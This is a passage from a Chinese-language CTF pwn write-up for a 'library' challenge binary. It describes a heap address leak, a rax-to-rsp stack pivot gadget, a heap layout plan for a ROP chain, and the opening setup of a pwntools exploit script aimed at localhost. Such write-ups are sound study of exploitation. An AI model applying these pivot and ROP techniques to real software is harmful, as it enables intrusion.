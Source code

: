 ![image-20250717210938229](https://webimage.lufiende.work/1752765763594.png)

同时，因为堆块区域在 libc 的上方，相当于泄露了堆地址

对于本地来说，堆地址会有随机化，本地测会在 0x40000 - 0x240000 变化，本地打可以小爆一下，远程貌似偏移固定 0x240000 ，对于远程直接计算即可，本地实际表现为后三位固定，**下文可能会用 base(110) 来表示堆上位置，且数字为 16 进制**

接下来我们就是寻找有什么能够劫持 rsp 到堆上的神奇 gadget，事实上还真有一个，**而且只能使用 ropper 找**

![image-20250717211744703](https://webimage.lufiende.work/1752765764194.png)

就是下面这个，把本来位于堆上装着 call 地址的 rax 赋值给 rsp，十分契合我们的需求，我们只需要根据这个布置堆就可以，以防万一，我们可以找个远点的地方，这里选择了 base(250)

我们想要执行 gadget ，就需要：

- 在 0x2623b0 上覆写 base(250) 作为假的偏移基址，有样学样，base(250) 写上自己
- 在 base(2d8) 上覆写 gadget 地址，2d8 即 250 + 88，可以利用上文的利用点执行 gadget，此时 rax 为 base(250)，会变成 rsp，rdi 是第一次写 base(250) 的地址，需要写一个堆上地址方便下一步跳转，这里取了 base(200)
- 那么 base(218) 需要写一个 pop xxx; retn 来执行 base(258) 上的 gadget
- 完成上一条之前在 base(258) 写好 gadget

手法可参考：

![image-20250717224736673](https://webimage.lufiende.work/1752765768437.png)

#### 2-2 Exp

```python
#!/usr/bin/env python3
from pwn import *

filename = "library_patched"
libcname = "/home/lufiende/.config/cpwn/pkgs/2.39-0ubuntu8.4/amd64/libc6_2.39-0ubuntu8.4_amd64/usr/lib/x86_64-linux-gnu/libc.so.6"
host = "127.0.0.1"
port = 5556
container_id = ""
proc_name = ""
elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)
gs = '''
b *0x23060d
set debug-file-directory /home/lufiende/.config/cpwn/pkgs/2.39-0ubuntu8.4/amd64/libc6-dbg_2.39-0ubuntu8.4_amd64/usr/lib/debug
set directories /home/lufiende/.config/cpwn/pkgs/2.39-0ubuntu8.4/amd64/glibc-source_2.39-0ubuntu8.4_all/usr/src/glibc/glibc-2.39
'''
# b *0x227ec0
context(arch='amd64', os='linux')
context.log_level = "debug"


def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gs)
    elif args.REMOTE:
        return remote(host, port)
    elif args.DOCKER:
        import docker
        from os import path
        p = remote(host, port)
        client = docker.from_env()
        container = client.containers.get(container_id=container_id)
        processes_info = container.top()
        titles = processes_info['Titles']
```